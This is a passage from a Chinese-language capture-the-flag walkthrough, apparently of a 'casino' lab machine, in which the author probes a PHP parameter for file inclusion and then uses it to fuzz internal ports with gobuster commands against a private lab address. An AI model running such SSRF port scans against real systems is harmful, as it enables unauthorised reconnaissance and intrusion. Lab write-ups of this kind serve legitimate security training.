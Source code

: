 似乎存在`RFI`，尝试一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527068.png" alt="image-20240321132203859" style="zoom:50%;" />

额，说明是可以正常远程读取文件的。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527069.png" alt="image-20240321133111447" style="zoom:33%;" />

似乎也不行，让他包含本地文件试试？

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527070.png" alt="image-20240321133315193" style="zoom:50%;" />

### FUZZ 端口

说明是可以查到本地文件的，尝试让他输出本地的端口试试。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527071.png" alt="image-20240321134122400" style="zoom:50%;" />

```bash
seq 0 65535 > 65535.txt
gobuster fuzz -u "http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:FUZZ" -w 65535.txt -c "PHPSESSID=olis0nc010av7pg4shf5rutt0i" -a "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

![image-20240321134521014](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527072.png)

将最多的过滤一下：

```bash
gobuster fuzz -u "http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:FUZZ" -w 65535.txt -c "PHPSESSID=olis0nc010av7pg4shf5rutt0i" -a "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" --exclude-length "1130"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527073.png" alt="image-20240321134737142" style="zoom:50%;" />

```text
Found: [Status=200] [Length=2268] [Word=0] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:0
Found: [Status=200] [Length=2268] [Word=80] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:80
Found: [Status=200] [Length=1969] [Word=6969] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969
```

访问看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527074.png" alt="image-20240321134900291" style="zoom:50%;" />

翻译软件翻译一下：

```text
添加更多游戏。
别忘了二进制文件的密码。
购买域名。
让游戏变得更难。
安全的FTP服务器。
侵入联邦调查局。
买一个星期三吃的三明治。
了解符号执行。
开发WannaCry 4.0。
帮助Colors黑客组织恢复他们的服务器并使其更安全。
```
